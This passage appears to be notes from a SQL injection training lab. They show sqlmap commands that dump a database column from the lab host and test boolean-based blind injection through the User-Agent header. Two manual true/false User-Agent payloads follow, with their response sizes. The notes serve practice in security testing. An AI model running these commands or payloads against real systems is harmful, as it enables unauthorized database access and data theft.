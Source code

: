 UNION and standard payloads like 1='1 are filterer.

```bash
sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 2sqlilabs -T browsers -C browser --dump
OR
sqlmap -u 'http://2.sqli.labs/' -p user-agent --user-agent=elsagent --technique=B --banner
```





manual

```bash
User-Agent: ' or 'elscustom'='elsFALSE   	// returns 6 
User-Agent: ' or 'elscustom'='elscustom		// returns 19
```

